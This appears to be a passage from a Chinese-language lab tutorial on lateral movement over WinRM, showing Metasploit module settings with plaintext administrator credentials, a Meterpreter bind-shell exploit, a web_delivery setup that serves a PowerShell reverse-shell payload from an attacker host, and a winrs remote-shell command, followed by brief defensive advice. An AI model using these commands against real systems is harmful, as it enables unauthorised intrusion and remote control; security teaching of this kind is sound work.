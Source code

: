 如上图所示当前管理员凭据对目标主机 Windows Server 2012 是有效的。确定凭据有效后，我们开始尝试对目标主机 Windows Server
2012 执行命令。

•`auxiliary/scanner/winrm/winrm_cmd`

该模块可以通过 WinRM 服务对远程主机执行任意命令，该模块需要有管理员权限的凭据。

    
    
    use auxiliary/scanner/winrm/winrm_cmdset rhosts 192.168.93.30set DOMAIN whoamianonyset USERNAME administratorset PASSWORD Whoami2021set CMD ipconfig    # 设置需要执行的命令run

![](https://gitee.com/fuli009/images/raw/master/public/20210915145643.png)image-20210804210518981

•`exploit/windows/winrm/winrm_script_exec`

该模块将尝试修改 PowerShell 执行策略以允许执行未签名的脚本，然后将 PowerShell 脚本写入磁盘并自动执行以返回一个
Meterpreter 会话。

    
    
    use exploit/windows/winrm/winrm_script_execset rhosts 192.168.93.30set DOMAIN whoamianonyset USERNAME administratorset PASSWORD Whoami2021set payload windows/meterpreter/bind_tcpset rhost 192.168.93.30set lport 4444exploit

执行后，如攻击成功，则可获得一个目标主机的 Meterpreter 会话。我这里在本地测试的时候没有成功不知道为什么。

### 借助 Web_delivery 模块

首先我们使用 Web_delivery 模块在攻击机上开启 Web 服务托管 Payload：

    
    
    use exploit/multi/script/web_deliveryset target 2# 选择使用powershell类型的payloadset payload windows/x64/meterpreter/reverse_tcpset lhost 192.168.93.129set lport 4444exploit

![](https://gitee.com/fuli009/images/raw/master/public/20210915145645.png)image-20210804223331035

然后再在 Windows 10 的 Meterpreter Shell 中通过 winrs 对 Windows Server 2012 执行命令，获取一个
交互的 Shell：

    
    
    winrs -r:http://192.168.93.30:5985 -u:administrator -p:Whoami2021 cmd

![](https://gitee.com/fuli009/images/raw/master/public/20210915145646.png)image-20210804222907058

然后在 Windows Server 2012 的 Shell 中执行 Web_delivery 模块生成的 PowerShell 命令即可上线：

![](https://gitee.com/fuli009/images/raw/master/public/20210915145648.png)image-20210804223743878

## 对于 WinRM 横向移动的防御

对于防御来自 WinRM 的横向移动，我们可以考虑以下两个方面。

•设置主机白名单，仅允许某些可信的计算机连接到 WinRM 服务器。•严格限制，确保仅允许本地管理组和 `WinRMRemoteWMIUsers__`
组中的用户有权使用 WinRM。•......

## Ending......
